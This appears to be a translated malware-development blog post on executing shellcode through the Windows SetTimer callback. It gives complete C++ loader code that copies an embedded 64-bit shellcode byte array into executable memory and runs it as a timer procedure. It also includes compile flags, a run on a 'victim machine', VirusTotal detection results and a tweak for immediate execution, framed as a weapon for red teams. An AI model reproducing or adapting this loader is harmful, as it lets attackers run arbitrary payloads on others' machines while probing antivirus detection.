




\newpage
\subsection{恶意软件开发技巧：通过 SetTimer 运行 shellcode（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章是我自己对下一个有趣技巧的研究结果：通过 `SetTimer` 函数运行 shellcode。

### SetTimer

`SetTimer` 函数是 Windows API 的一部分。它用于创建一个具有指定超时值的计时器。

它的基本语法如下：

```cpp
UINT_PTR SetTimer(
  HWND  hWnd,
  UINT_PTR  nIDEvent,
  UINT  uElapse,
  TIMERPROC lpTimerFunc
);
```

各形参含义如下：

`hWnd`：一个指向要关联该计时器的窗口的句柄。这个窗口必须由调用线程拥有。如果传入 NULL 的 `hWnd` 值，并且 `nIDEvent` 是一个已存在计时器的 ID，那么旧计时器将被新的替换。

`nIDEvent`：一个非零的计时器标识符。如果 `hWnd` 参数为 NULL，并且 `nIDEvent` 与已存在的计时器不匹配，那么它会被忽略并生成一个新的计时器 ID。如果 `hWnd` 不为 NULL，且 `hWnd` 指定的窗口已经有一个值为 `nIDEvent` 的计时器，那么现有的计时器将被新的计时器替换。当 `SetTimer` 替换一个计时器时，该计时器会被重置。

`uElapse`：超时值，以毫秒为单位。

`lpTimerFunc`：一个指向超时值到期时将被通知的函数的指针。如果此参数为 NULL，系统会向应用程序队列投递一条 `WM_TIMER` 消息。该消息由窗口过程处理。

### 实战示例

那么，技巧在哪里呢？我们来看一下这个（`hack.c`）：

```cpp
/*
 * hack.cpp - run shellcode via SetTimer. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;

```

如你所见，这段代码似乎试图通过 `SetTimer` Windows API 函数执行 shellcode：给它提供一个函数指针（`TIMERPROC`），在计时器到期时被调用。

和往常一样，为了简单起见我们使用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示

我们来看一切实际运行的样子。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在我们的受害机器上运行：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到一切都完美工作了！=..=

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

所以，71 个 AV 引擎中有 19 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection>

不过，我认为我们的粗糙 PoC 代码里有个问题。

所以，如果我们想立即执行 shellcode，就需要把 `uElapse` 设为 1。类似于这样：

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {  // Using while loop to keep the 
  //message pump running
  DispatchMessageA(&msg);

```

这段代码会创建一个几乎立即到期的计时器，并把我们的 shellcode 作为回调函数调用。

当然要注意，由于通过计时器回调执行代码这种异常行为，这类技术可能会被杀毒软件检测为恶意。

我希望这篇文章能让蓝队意识到这项有趣的恶意软件开发技术，同时为红队的武器库增添一件武器。

`SetTimer` 函数要求 `uElapse` 参数必须被设置。

这个参数表示超时值，以毫秒为单位。如果它被设为 NULL 或 0，该函数将不会设置计时器。

我还没有在真实的恶意软件和 APT 攻击中看到这个技巧。
